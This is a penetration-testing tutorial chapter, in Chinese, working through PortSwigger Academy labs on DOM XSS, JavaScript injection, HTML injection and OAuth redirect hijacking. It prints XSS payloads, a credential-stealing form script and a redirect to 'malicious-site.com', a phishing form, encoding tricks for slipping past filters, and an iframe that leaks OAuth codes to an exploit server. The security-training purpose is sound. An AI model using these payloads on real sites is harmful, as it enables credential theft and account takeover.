# 第九章：客户端测试

在进行客户端测试时，攻击类型主要集中在客户端（浏览器）上，而非攻击应用架构的服务器端。这些攻击类型专注于系统或应用的客户端组件，例如网页浏览器或操作系统。为了发现漏洞和缺陷，测试人员可能会采用一系列工具和方法，包括手动测试、自动化测试工具和网络扫描器。你将学习主动攻击常见问题，如**文档对象模型**(**DOM**) 基于的跨站脚本攻击 (**XSS**)、**JavaScript 执行**（例如泄露最终用户的会话 Cookie）、**HTML 注入**（攻击者注入恶意代码）、**客户端 URL 重定向**（攻击者操控网站或 Web 应用，将受害者客户端重定向）、**跨源资源共享**（利用 Web 应用的安全策略漏洞访问资源或数据）以及**WebSockets 测试**（攻击者利用 WebSocket 协议漏洞拦截、篡改或伪造客户端与服务器之间的通信）。客户端渗透测试的目的是发现并报告攻击者可能利用的漏洞和缺陷。通过检测并修复这些漏洞，组织可以提升系统安全，防止潜在攻击。

在本章节中，我们将涵盖以下实验内容：

+   测试基于 DOM 的跨站脚本攻击

+   测试 JavaScript 执行

+   测试 HTML 注入

+   测试客户端 URL 重定向

+   测试跨源资源共享

+   测试 WebSockets

# 技术要求

本章节要求使用常见的浏览器，例如 Mozilla Firefox。你还需要使用你的 PortSwigger 账户访问将在本章节实验中使用的 PortSwigger Academy 实验室。

# 测试基于 DOM 的跨站脚本攻击

这与反射型跨站脚本攻击相对，反射型跨站脚本攻击是恶意 JavaScript 被 Web 服务器返回，或者存储型 XSS 攻击，是攻击被永久存储在目标服务器或数据库中。这两种攻击都是服务器端注入问题。而 DOM XSS 是纯粹的客户端攻击。`DOM XSS` 是针对客户端（浏览器）DOM 环境的攻击。

## 准备工作

本实验需要一个 PortSwigger Academy 账户以及 ZAP 来拦截从服务器到浏览器的请求和响应。

## 如何操作...

在这个实验中，用户将攻击具有基于 DOM 的 XSS 漏洞的搜索查询跟踪功能。这个弱点利用了 `document.write` JavaScript 函数将数据输出到网页。然后，`location.search` 中的数据可以通过 URL 修改并传递给 `document.write` 方法。要完成实验，DOM XSS 攻击需要调用 `alert` 函数。

重要提示

检查页面源代码可以帮助你发现可被利用的 DOM XSS 漏洞，方法是寻找在创建攻击时常用的 DOM 元素。

1.  导航至使用 ZAP 代理的浏览器的 URL，并登录 PortSwigger Academy 网站以启动实验室 ([`portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink))。

1.  一旦实验室加载完成，你将看到一个包含搜索栏的主博客页面。在这里，输入任何单词或字母。

1.  应用程序将尝试查找你的词，并以单引号形式显示给你。右键点击结果并选择 **检查**。

1.  你会注意到你的随机字符串被放置在 `img src` 属性中，如 *图 9.1* 所示：



图 9.1 – 检查搜索结果

1.  在搜索栏内，输入一个恶意的 `img` 属性，例如以下内容：

    ```
     #">
    ```

这段 HTML JavaScript 代码将被浏览器执行，创建一个弹出警告显示文本 `2`：



图 9.2 – 被利用的 DOM XSS 有效载荷

## 它是如何工作的...

DOM 是一个用于在线内容的编程接口，它使应用程序能够更改文档的结构、设计和内容，这些内容代表了网页。

基于 DOM 的 XSS 漏洞通常出现在以下任何 JavaScript 属性接受数据输入时：

+   一个 **来源**(**location.search**)，攻击者可以控制。

+   一个 URL (**document.referrer**)

+   用户的 cookies (**document.cookie**)

+   一个 **接收点**(**eval(), document.body.innerHTML**)，它接受有害的 JavaScript 函数或 DOM 对象。

这些中的任何一个都可能允许动态代码执行，导致被利用。

## 还有更多...

DOM 中的多个数据源容易受到 XSS 攻击，如下所示：

+   **输入字段**：例如，文本框和表单字段如果用户的输入在展示到网站上之前没有经过适当清理，可能会受到 XSS 攻击的威胁。

+   **查询字符串**：攻击者可以利用 URL 的查询字符串向网页注入恶意代码。如果程序在展示页面之前未能验证或清理查询字符串，就可能发生这种情况。

+   `Cookies`：如果它们没有被适当加密或包含未经清理的用户输入，cookies 可能会受到 XSS 攻击的威胁。

+   **文档属性**：如果文档的标题和 URL 在展示之前没有被正确清理，它们可能会受到 XSS 攻击的威胁。

+   **JavaScript 变量**：如果它们包含未经清理的用户输入，JavaScript 变量可能会受到 XSS 攻击的威胁。

+   **HTML 属性**：包含未经清理的用户输入的 HTML 属性，如 `image` 标签的 `src` 属性，可能会受到 XSS 攻击的威胁。

jQuery 是一个常用的 JavaScript 库，通常用于操作 DOM。如果不正确使用，多个 jQuery 函数可能会导致基于 DOM 的 XSS 漏洞，如此处所列。

+   `html()`：此函数设置元素的 HTML 内容。如果用于将元素的 HTML 内容设置为未经清理的用户输入，可能会导致 DOM XSS 漏洞。

+   `append()`：此函数将在元素的末尾插入内容。如果用于在元素末尾插入未经清理的用户输入，可能会导致 DOM XSS 漏洞。

+   `prepend()`：此函数将在元素的开头插入内容。如果用于在元素开头插入未经清理的用户输入，可能会导致 DOM XSS 漏洞。

+   `before()`：此函数将在一个元素之前插入内容。如果用于在元素之前插入未经清理的用户输入，可能会导致 DOM XSS 漏洞。

+   `after()`：此函数将在元素之后插入内容。如果用于在元素之后插入未经清理的用户输入，可能会导致 DOM XSS 漏洞。

+   `text()`：此函数设置元素的文本内容。如果用于将元素的文本内容设置为未经清理的用户输入，可能会导致 DOM XSS 漏洞。

对于网页开发者来说，在使用任何这些函数进行编码之前，正确地清理所有用户输入是非常重要的，包括`add()`、`animate()`、`insertAfter()`、`insertBefore()`、`replaceAll()`、`replaceWith()`、`wrap()`、`wrapInner()`、`wrapAll()`、`has()`、`constructor()`、`init()`、`index()`、`jQuery.parseHTML()`和`$.parseHTML()`。

对于其他载荷，请访问以下 GitHub 页面：

+   *PayloadsAllTheThings*：[`github.com/swisskyrepo/PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings)

+   *SecLists*：[`github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS`](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)

+   *XSS Payload* *List*：[`github.com/payloadbox/xss-payload-list`](https://github.com/payloadbox/xss-payload-list)

重要提示

如果下载/克隆任何仓库，请确保你有安装它们的权限，因为某些列表（如 SecLists）包含恶意载荷。如果在工作笔记本上安装，可能会触发端点检测和响应解决方案或其他安全工具，标记你有恶意内容，IT 人员可能会问你为什么它在你的工作站上。避免惹上麻烦。

# 测试 JavaScript 执行

JavaScript 执行是指即使网站有某种保护措施（例如对某些字符进行编码），也能在网站中注入并执行 JavaScript。对于许多攻击者来说，简单的字符编码并不总是一个挑战；他们通过创建更复杂的负载，绕过该编码方式，让后端服务器将其转换为 JavaScript，并允许其在网站上执行。

## 准备工作

此实验室需要一个 PortSwigger Academy 账号以及 ZAP 来拦截从服务器到浏览器的请求和响应。

## 如何操作...

在这个示例中，我们将绕过编码机制来传递我们的负载。你将看到我们如何向页面注入 JavaScript 并激活负载，因为我们会发现绕过编码方法的途径。

按照以下步骤开始：

1.  在浏览器通过 ZAP 代理访问 URL，并登录 PortSwigger Academy 网站启动实验室（[`portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded`](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)）。

1.  在应用程序中，在 `Search` 字段中输入任何字符串，如 *图 9.3* 所示，然后点击 `Search`：



图 9.3 – Web 应用的搜索字段

1.  接下来，进入 ZAP 并查看 `Sites` 窗口。查找实验室 URL 并点击，如 *图 9.4* 所示：



图 9.4 – Sites 窗口

1.  在选择了 URL 路径后，右键单击下拉菜单并选择 `Open/Resend with** **Request Editor`。

1.  查找 URL 中的 `search=` 字段（见图 9.5）：



图 9.5 – Manual Request Editor 中的 search= 字段

1.  编辑 `search=` 字段，将负载设置为 ``-alert(1)-``，如 *图 9.6* 所示，然后按 `Send` 发送请求：



图 9.6 – 在 search= 字段中设置负载

1.  一旦在 `Manual Request Editor` 中收到响应，向下滚动到页面中返回代码的位置，如 *图 9.7* 所示。你会注意到，负载并不在单引号内，而是 `alert(1)` 的值被发送到 `searchTerms` 对象，这在浏览器中触发了 XSS 负载：



图 9.7 – 成功返回的代码

## 它是如何工作的...

JavaScript 执行漏洞使应用程序暴露于许多常见漏洞中，例如 XSS 以及任何由 JavaScript 创建的负载。JavaScript 执行利用了允许用户控制输入并返回到网站的漏洞，使得负载可以在那里被触发。

## 还有更多...

攻击者将使用多种技术来帮助绕过保护措施。一种常用的技术是*URL 编码*，也称为*百分号编码*，其中 URL 或表单字段中的某些字符被替换为它们的十六进制等效值，并在前面加上百分号符号（**%**）。例如，一个非常著名的黑客字符是单引号（**'**），它被编码为`%27`。攻击者使用这种技术绕过安全过滤器或向 Web 应用程序注入恶意代码。

当这失败时，另一种绕过安全性的技术称为*双重编码*。这就是将像`%27`这样的编码值再次编码，变成`%2527`。这有助于绕过只检查单一编码值的过滤器。

最后一种技术叫做*Unicode 编码*，它允许攻击者通过使用潜在危险字符的替代编码来绕过基于黑名单的输入验证过滤器。在我们相同的例子中，`%27`变为`U+0025U+0027`，甚至可以进一步写为`U+0025U+0032U+0037`。这些攻击还可以通过将单引号表示为其 Unicode 编码形式的全角撇号（**U+FF07**）或用 UTF-8 形式编码为`%EF%BC%87`来变得更加复杂。

在测试时，最好尝试多种攻击方法，以了解应用程序如何受到保护，以及字段是否正确验证输入或在 SQL 语句的情况下进行参数化。

# 测试 HTML 注入

HTML 注入是指用户可以访问 Web 应用程序中的**输入**参数，并能将任意 HTML 代码注入到该网页中。

## 准备开始

本实验需要一个 PortSwigger Academy 账户和 ZAP 来拦截从服务器到浏览器的请求和响应。

## 如何操作...

在这个实验中，你将利用搜索博客功能，它存在 DOM 型 XSS 漏洞。攻击将利用`innerHTML`赋值来修改`div`元素的 HTML 内容，使用来自`location.search`的信息。结果将执行一个跨站脚本攻击，调用`alert`函数以完成实验。

按照以下步骤开始：

1.  在浏览器通过 ZAP 代理访问 URL 并登录 PortSwigger Academy 网站以启动实验（[`portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink`](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)）。

1.  在实验应用程序中，将以下 HTML 负载输入到**搜索**字段中：

    ```
     
    ```

1.  一旦你点击**搜索**，负载将会执行，如*图 9.8*所示，完成实验：



图 9.8 – 警报负载

一旦成功，你将看到警报负载，PortSwigger Academy 实验会祝贺你。做得好！

## 它是如何工作的...

之所以有效，是因为`src`属性的值（**1**）不正确，从而抛出错误。但由于这个错误，一旦`onerror`事件处理程序被激活，负载中的`alert()`函数将被调用。每当客户端尝试加载包含执行负载的恶意 POST 请求的网页时，都会发生以下结果。

当输出未正确编码且用户输入未经过适当清理时，应用程序会暴露于注入漏洞，攻击者可以精心设计恶意 HTML 页面并将其发送给目标进行处理。受害者的浏览器将解析并执行整个构造的页面，因为它无法理解合法代码和恶意 HTML 代码中的好部分。

## 还有更多…

HTML 注入与 JavaScript 执行类似，都是通过将恶意代码注入到 Web 应用程序中，并让浏览器执行这些代码。HTML 注入是将 HTML 代码注入到网站中，通常通过更改输入字段或 URL 参数来实现。浏览器随后会渲染这些注入的代码，这可能会改变网站的结构和设计。或者，JavaScript 注入是指插入 JavaScript 代码。攻击者可以通过多种方式执行 HTML 注入，如下所示：

+   **窃取用户数据**：当网页加载时，攻击者可能会注入 JavaScript 代码来窃取用户信息，如登录凭证。例如，攻击者可能插入代码，生成一个隐藏的表单，并自动将其填充到他们控制的服务器上，从而让他们接收用户的信息。例如，代码可能如下所示：

    ```
     <script>
    ```

    ```
     function stealData() {
    ```

    ```
     var form = document.createElement("form");
    ```

    ```
     form.setAttribute("method", "post");
    ```

    ```
     form.setAttribute("action", "http://malicious-site.com");
    ```

    ```
     var loginInput = document.createElement("input");
    ```

    ```
     loginInput.setAttribute("type", "hidden");
    ```

    ```
     loginInput.setAttribute("name", "username");
    ```

    ```
     loginInput.setAttribute("value", document.getElementById("username").value);
    ```

    ```
     form.appendChild(loginInput);
    ```

    ```
     var passwordInput = document.createElement("input");
    ```

    ```
     passwordInput.setAttribute("type", "hidden");
    ```

    ```
     passwordInput.setAttribute("name", "password");
    ```

    ```
     passwordInput.setAttribute("value", document.getElementById("password").value);
    ```

    ```
     form.appendChild(passwordInput);
    ```

    ```
     document.body.appendChild(form);
    ```

    ```
     form.submit();
    ```

    ```
     }
    ```

    ```
     </script>
    ```

+   **重定向用户**：攻击者可以将 JavaScript 代码注入网页，将用户重定向到恶意网站。例如，攻击者可以注入代码，改变浏览器中`location`属性的值，从而导致用户被重定向到一个模仿合法网站的钓鱼网站：

    ```
     <script>
    ```

    ```
     window.location = "http://malicious-site.com";
    ```

    ```
     </script>
    ```

+   **网络钓鱼**：攻击者可能将 JavaScript 代码注入到网页中，将用户引导到恶意网站。例如，攻击者可能会包含代码，修改位置字段的值，并将访问者引导到一个看起来与合法网站完全相似的钓鱼网页：

    ```
     <form action="http://malicious-site.com" method="post">
    ```

    ```
     <input type="text" name="username" placeholder="Username">
    ```

    ```
     <input type="password" name="password" placeholder="Password">
    ```

    ```
     <input type="submit" value="Log in">
    ```

    ```
     </form>
    ```

+   **SQL 注入**：攻击者可能将 SQL 查询插入到 Web 应用程序中，这可能让他们未经授权访问数据库，并允许他们提取、修改或删除数据。例如，攻击者可能会插入代码，返回`users`表中的所有信息，例如`UNION SELECT *** **FROM users"`：

    ```
     <form action="http://zaproxy.org/search" method="get">
    ```

    ```
     <input type="text" name="search" value="' UNION SELECT * FROM users">
    ```

    ```
     <input type="submit" value="Search">
    ```

    ```
     </form>
    ```

# 测试客户端 URL 重定向

URL 重定向攻击（开放重定向）发生在应用程序允许不受信任的用户输入的情况下，攻击者向用户提供一个超链接。然后，这个超链接会将他们发送到一个与用户试图访问的目标网页不同的外部 URL。通俗地说，当攻击者将用户从当前页面发送到一个新的 URL 时，就会发生这种情况。

## 准备工作

这个实验需要一个 PortSwigger Academy 账户和 ZAP 来拦截服务器发送到浏览器的请求和响应。

## 如何操作...

在这个示例中，实验使用**开放授权**（**OAuth**）服务来验证虚假社交媒体账户。你，作为攻击者，将利用 OAuth 中的配置错误来窃取与另一个用户账户相关的授权令牌，以获取访问权限并移除用户 Carlos：

1.  在浏览器代理到 ZAP 的 URL 中导航，并登录到 PortSwigger Academy 网站以启动实验（[`portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri`](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)）。

1.  首先确保在 ZAP 中捕获请求。然后点击**我的账户**，使用提供的凭据通过 OAuth 登录。网页上会显示一个消息指示你正在被重定向。此外，在 URL 中，你会看到你正在使用 OAuth（如*图 9**.9*所示）：



图 9.9 – OAuth URL

1.  通过单击**我的账户**注销，然后再次登录。

你会注意到你立即登录了。这是因为仍然存在与 OAuth 服务的活动会话；因此，你无需提供用户名和密码进行重新验证。

1.  在 ZAP 中，查看**历史**选项卡，可以找到最近的 OAuth 请求。首先输入`GET /auth?client_id=[...]`。在发送此请求后，立即被重定向到`redirect_uri`，并在请求消息中连同授权码一起发送（见*图 9**.10*）：



图 9.10 – 授权请求

1.  右键单击并在**手动` `请求编辑器**中打开此`/auth?client_id=`请求。

1.  在这个请求中（见*图 9**.11*），你可以发送任意随机值作为`redirect_uri`而不会引起错误。这是你将用来创建恶意重定向 URL 的参数：



图 9.11 – 重定向 URI 操纵

1.  接下来，将利用漏洞服务器的**统一资源标识符**（**URI**）作为`redirect_uri`。然后右键单击并复制请求 URL。将此 URL 输入到浏览器地址栏中，然后按回车键发送请求。你会看到网页打开，并显示在漏洞服务器页面上的默认消息；*Hello world!*。

1.  回到漏洞服务器的访问日志，你会看到有一条日志记录了你的授权码。这表明授权码泄露到外部域（见*图 9.12*）：



图 9.12 – 带有授权码的漏洞服务器访问日志

1.  现在保留该 URL，但返回到主漏洞服务器页面，并将其粘贴到 body 的 iframe 中（请参阅以下代码片段），确保`OAUTH-ID`、`CLIENT-ID`（你第一次登录时的 OAuth ID）和`EXPLOIT-ID`（漏洞服务器的 ID）是正确的：

    ```
     <iframe src="https://OAUTH-ID.web-security-academy.net/auth?client_id=CLIENT_ID&redirect_uri=https://EXPLOIT-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
    ```

1.  接下来，点击底部的`Store`按钮上传漏洞。一旦完成，*不要*点击`View exploit`，而是从`src" "`复制整个网址，打开一个新的浏览器标签页，将网址粘贴到地址栏并访问它。如前所述，这将打开一个 iframe，展示漏洞服务器网页。

1.  关闭浏览器标签页，返回漏洞服务器并检查`Access log`。你将看到日志显示一个`GET /?code=`请求，带有新生成的代码，如*图 9.13*所示。这是你的代码，但它能让你判断漏洞是否有效：



图 9.13 – iframe 负载的访问日志

1.  将相同的漏洞交付给受害者，然后返回`Access Log`，查找来自不同 IP 地址的新生成代码。从日志中的结果复制受害者的代码：

重要提示

如果代码字符串的末尾有一个破折号（**-**），请确保将这个破折号和整个代码一起复制。



图 9.14 – 受害者负载响应

1.  *先登出*整个网站，使用新捕获的代码，构造一个新的`oauth-callback` URL 并将其粘贴到浏览器的地址栏中访问：

    ```
     https://LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
    ```

1.  OAuth 会自动完成身份验证并将你登录为管理员。

1.  进入`Admin`面板。

1.  删除 Carlos。

## 它是如何工作的...

OAuth 2.0 框架是一个常见的身份验证工具，但由于配置错误，常常会出现漏洞。OAuth 流程的一个重要组件是重定向 URL。授权服务器将在用户成功授权某个应用后将用户引导回应用。至关重要的是，服务不能将客户重定向到随机位置，因为重定向 URL 包含关键信息。

OAuth 提供者是网络钓鱼攻击的主要目标，因为它们在通过浏览器重定向传递`access_token`时未验证`redirect_uri`。

在这次攻击中，威胁行为者向目标提供一个指向受信任认证门户的 URL，利用该认证门户，恶意用户可以将受害者的`access_token`发送到他们控制的 web 服务器，从而允许攻击者访问未授权的资源。

## 还有更多…

用户可以通过 OAuth 协议向第三方应用程序提供资源访问权限（即数据或 API），而无需透露他们的登录信息。OAuth 身份验证过程通常由以下三个关键元素组成：

+   **客户端应用程序**：这是一个第三方程序，旨在获取对用户资源的访问权限。它必须在 OAuth 提供者处注册，并配备客户端 ID 和密钥。

+   **授权服务器**：这是负责管理用户资源并进行用户身份验证的服务器。通常由 OAuth 提供者（如 Google、Facebook、Twitter、Linkedin、Windows Live 等）管理，负责为客户端应用程序提供访问权限。

+   **资源拥有者**：这是拥有客户端应用程序希望使用的资源的用户。资源拥有者必须授权客户端应用程序访问他们的资源。

在 OAuth 身份验证过程中，客户端应用程序将用户重定向到授权服务器的登录页面。之后，用户输入登录信息并授权客户端应用程序。授权服务器随后将用户重定向回客户端应用程序，提供一个访问令牌，允许客户端访问用户的资源。

重要提示

在某些 OAuth 实现中，可能还包括额外的组件，例如存储用户资源的资源服务器，以及提供访问令牌的令牌端点。

